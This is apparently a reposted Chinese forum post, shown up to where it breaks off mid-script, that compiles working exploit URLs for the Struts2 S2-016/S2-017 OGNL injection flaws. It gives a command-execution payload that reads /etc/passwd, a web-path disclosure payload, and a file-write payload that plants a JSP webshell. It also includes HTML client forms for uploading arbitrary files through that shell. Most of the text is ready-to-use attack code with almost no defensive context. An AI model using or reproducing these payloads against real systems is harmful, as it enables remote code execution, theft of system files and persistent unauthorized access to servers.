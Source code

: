 轉自：http://zone.wooyun.org/content/5186



Struts2 S2-016/S2-017 命令执行带回显、看web路径、getshell exp整理

喜欢就点一下感谢吧^_^ 
带回显命令执行： 
http://www.example.com/struts2-blank/example/X.action?redirect:${%23a%3d(new java.lang.ProcessBuilder(new java.lang.String[]{'cat','/etc/passwd'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew java.io.InputStreamReader(%23b),%23d%3dnew java.io.BufferedReader(%23c),%23e%3dnew char[50000],%23d.read(%23e),%23matt%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23matt.getWriter().println(%23e),%23matt.getWriter().flush(),%23matt.getWriter().close()}




爆路径： 
http://www.example.com/struts2-blank/example/X.action?redirect%3A%24%7B%23req%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletRequest%27%29%2C%23a%3D%23req.getSession%28%29%2C%23b%3D%23a.getServletContext%28%29%2C%23c%3D%23b.getRealPath%28%22%2F%22%29%2C%23matt%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29%2C%23matt.getWriter%28%29.println%28%23c%29%2C%23matt.getWriter%28%29.flush%28%29%2C%23matt.getWriter%28%29.close%28%29%7D



写文件： 
http://www.example.com/struts2-blank/example/X.action?redirect:${ 
%23req%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'), 
%23p%3d(%23req.getRealPath(%22/%22)%2b%22css3.jsp%22).replaceAll("\\\\", "/"), 
new+java.io.BufferedWriter(new+java.io.FileWriter(%23p)).append(%23req.getParameter(%22c%22)).close() 
}&c=%3c%25if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b%25%3e


写入的文件内容： 
<%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("/")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%>
       
其实就是一个jsp的小马，需要客户端配合                                                                                   
函数f是文件名，t是内容 
客户端： 
<form action="http://www.example.com/struts2-blank/example/css3.jsp?f=fjp.jsp" method="post"> 
<textarea name=t cols=120 rows=10 width=45>your code</textarea><BR><center><br> 
<input type=submit value="提交"> 
</form>

就在当前目录建立一个fjp.jsp 
shell：http://www.example.com/struts2-blank/example/fjp.jsp 

还有@园长的一个客户端： 
<html> 
<head> 
<meta http-equiv="content-type" content="text/html;charset=utf-8"> 
<title>jsp-园长</title> 
</head> 
<style> 
.main{width:980px;height:600px;margin:0 auto;} 
.url{width:300px;} 
.fn{width:60px;} 
.content{width:80%;height:60%;} 
</style> 
<script> 
  function upload(){ 
    var url = document.getElementById('url').value, 
      content = document.getElementById('content').value, 
      fileName = document.getElementById('fn').value, 
      form = document.getElementById('fm'); 
    if(url.length == 0){ 